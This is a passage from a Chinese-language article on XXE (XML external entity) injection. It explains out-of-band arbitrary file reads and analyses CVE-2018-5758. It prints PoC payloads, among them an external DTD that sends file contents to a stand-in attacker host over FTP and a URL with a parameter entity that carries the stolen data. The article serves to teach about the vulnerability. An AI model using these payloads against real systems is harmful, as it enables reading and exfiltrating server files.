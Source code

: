         <!ENTITY xxe SYSTEM "http://192.168.1.1:8080/">
    ]>
    <foo>&xxe;</foo>
    ```

网上还可以搜索到大量已经总结好的PoC，从某云上XXE注入案例的比例来看，出镜率最高的是『基于OOB的任意文件读取』。

值得一提的是，对于这个PoC可能不太了解的小伙伴会有一个疑惑，为什么负责数据发送的参数实体一定要放在外部DTD中声明？

这是由于在内部DTD声明时，参数实体引用不能出现在标记声明中，而外部DTD没有这个限制。也就是说如果把`http://evil.com/?data=%file;`写在PoC本体的内部DTD声明的标签中，解析`%file;`时就会抛出异常。

### 案例分析

和XSS的见框就X类似，XXE的案例大多都是见XML就X。就像在挖掘思路中提到的，XML文档数据的存在不止有HTTP的POST，文件也是XXE经常出没的一个地方。

例如CVE-2018-5758，应用程序中有一个上传文件并共享的功能，在公开已上传的文件之前，应用程序会尝试使用Flash将文件内容展示在页面上。

首先向攻击服务器上传一个DTD文件，内容如下：

```xml
<!ENTITY % all "<!ENTITY send SYSTEM'ftp://our-external-server.com:8080/%file;'>">
%all;
```

然后构造一个『恶意』文件，在其中使用一个外部实体引用来向攻击服务器DTD文件资源发送HTTP请求。通过应用程序的上传文件功能上传『恶意』文件，在点击『查看』按钮时，XXE注入攻击成功：

![02.png](xxe-injection-overview/02.png)